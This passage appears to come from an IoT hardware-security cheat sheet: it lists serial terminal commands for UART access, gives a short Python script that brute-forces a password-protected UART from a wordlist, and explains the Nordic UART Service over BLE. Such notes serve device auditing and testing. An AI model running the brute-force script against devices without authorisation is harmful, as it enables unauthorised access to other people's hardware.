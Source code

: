 ### Interact with UART
Different command line tools to interact with UART:
```powershell
cu -l /dev/ttyUSB0 -s 115200
microcom -d -s 115200 -p /dev/ttyUSB0
minicom -b 115200 -o -D /dev/ttyUSB0 # To exit GNU screen, type Control-A k
screen /dev/ttyUSB0 115200
miniterm.py /dev/ttyUSB0 115200 | tee ./stuff.log # tee command to save output, useful for parsing
```

Script to brute force a password protected UART:
```python
import serial, time
port = "/dev/ttyUSB0"
baud = 115200
s = serial.Serial(port)
s.baudrate = baud

with open('/home/audit/Documents/IOT/passwords.lst', 'r') as f:
    lines = f.readlines()

    for pwd in lines:
        a = s.write(pwd.strip())
        print("Pwd: {}".format(pwd.strip()))
        print("Sent {} bytes".format(a))
        print("Result: {}".format(s.readline()))
        time.sleep(10)
```

## UART over BLE

It’s an emulation of serial port over BLE. The UUID of the Nordic UART Service is `6E400001-B5A3-F393-E0A9-E50E24DCCA9E`. This service exposes two characteristics: one for transmitting and one for receiving.

* **RX Characteristic (UUID: 6E400002-B5A3-F393-E0A9-E50E24DCCA9E)** :
	* The peer can send data to the device by writing to the RX Characteristic of the service. ATT Write Request or ATT Write Command can be used. The received data is sent on the UART interface.
* **TX Characteristic (UUID: 6E400003-B5A3-F393-E0A9-E50E24DCCA9E)** :
	* If the peer has enabled notifications for the TX Characteristic, the application can send data to the peer as notifications. The application will transmit all data received over UART as notifications.

### Examples
* [nRF UART 2.0 - Nordic Semiconductor ASA](https://play.google.com/store/apps/details?id=com.nordicsemi.nrfUARTv2)
* [UART/Serial Port Emulation over BLE](https://infocenter.nordicsemi.com/index.jsp?topic=%2Fcom.nordic.infocenter.sdk5.v14.0.0%2Fble_sdk_app_nus_eval.html)
* [UART Over Bluetooth Low Energy](https://thejeshgn.com/2016/10/01/uart-over-bluetooth-low-energy/)
* [https://makecode.microbit.org/v1/98535-28913-33692-07418](https://makecode.microbit.org/v1/98535-28913-33692-07418)
* [Using the micro:bit Bluetooth Low Energy UART (serial over Bluetooth)](https://support.microbit.org/support/solutions/articles/19000062330-using-the-micro-bit-bluetooth-low-energy-uart-serial-over-bluetooth-)
